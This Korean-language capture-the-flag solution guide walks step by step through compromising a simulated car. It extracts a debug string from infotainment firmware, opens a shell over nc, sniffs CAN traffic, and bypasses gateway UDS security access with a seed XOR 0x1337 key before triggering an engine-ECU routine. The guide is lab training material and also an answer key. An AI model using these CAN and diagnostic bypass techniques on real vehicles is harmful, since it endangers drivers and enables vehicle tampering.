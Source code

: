 # ECU CTF 솔루션 가이드

## 환경 설정
```bash
# 환경 생성
curl -X POST http://ctf-server:8080/start
# 응답: {"session_id": "...", "host": "...", "port": 12345, "firmware_download": "..."}

# 펌웨어 다운로드
wget http://ctf-server:8080/firmware/session_xxx
```

## 1단계: 펌웨어 분석
```bash
# 문자열 분석
strings infotainment_firmware.bin | grep -i debug
# 결과: ENABLE_DEBUG_MODE_12345

# 또는 바이너리 분석
objdump -d infotainment_firmware.bin | grep -A 10 -B 10 "ENABLE"
```

## 2단계: 인포테인먼트 침투
```bash
# 인포테인먼트 접속
nc <host> <port>

# 메뉴에서 3번 (Diagnostics) 선택
3

# 디버그 모드 활성화 문자열 입력
ENABLE_DEBUG_MODE_12345

# 메뉴에서 9번 (Debug Menu) 선택
9

# 쉘 명령 실행
shell
```

## 3단계: CAN 네트워크 분석
```bash
# CAN 인터페이스 확인
ip link show vcan0

# CAN 트래픽 모니터링
candump vcan0

# 테스트 메시지 전송
cansend vcan0 123#27011234
```

## 4단계: 게이트웨이 인증 우회
```bash
# 시드 요청
cansend vcan0 123#2701

# 응답 수신 (예: 124#67011234)
# 시드값: 0x1234

# 키 계산: seed XOR 0x1337
# 0x1234 XOR 0x1337 = 0x0103

# 키 전송
cansend vcan0 123#27020103

# 인증 성공 응답: 124#6702
```

## 5단계: 엔진 ECU 접근
```bash
# 루틴 시작
cansend vcan0 123#31011234

# 엔진 ECU 활성화 후 플래그 확인
# 최종 플래그: CTF{engine_ecu_compromised_final_flag}
